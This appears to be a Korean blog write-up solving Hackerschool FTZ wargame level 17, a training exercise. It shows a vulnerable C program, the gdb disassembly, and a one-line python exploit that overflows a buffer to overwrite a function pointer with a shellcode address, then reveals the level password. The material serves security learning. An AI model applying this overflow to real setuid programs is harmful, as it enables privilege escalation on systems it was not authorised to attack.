 ```yaml
---
date: '2022-10-07'
before : '2022-10-06'
after : '2022-10-08'
title: '해커스쿨 FTZ 레벨 17'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제는 사실 정말 설명이 필요 없을정도로 Level 16과 비슷하다...

### 1. Level 17

소스코드부터 확인해보자.

```
#include <stdio.h>

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  setreuid(3098,3098);

  call();
}
```

크게 어려울 것 없는 코드다. 다만 이번엔 printit함수만 존재한다! 그렇다고 RET까지 가기에는 입력받는 범위가 모자라다. 


그럼 단순히 Shell 코드 환경변수 하나 만들어서 그 주소를 printit에 대입하면 될 것이다. 환경변수를 만들고 주소까지 확인하는 법은 내 블로그 FTZ Level12에 자세히 나와있다!


환경변수를 만들고 주소까지 확인해보니 :
```
0xbffffc18
```
값이 나왔다. gdb로 포인터와 배열 사이의 거리를 재보자.
```
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
0x080484e8 <main+64>:   nop
0x080484e9 <main+65>:   nop
```
예상했지만, 저번 문제와 똑같다(...) 


그냥 저번 문제의 코드에서 주소만 쉘코드 주소로 바꿔서 넣어보니 문제가 풀린다.
```
(python -c 'print "A"*40+"\x18\xfc\xff\xbf"'; cat) | ./attackme
```

비밀번호 : why did you do it


---
## Source

- 해커스쿨 FTZ
- Me!



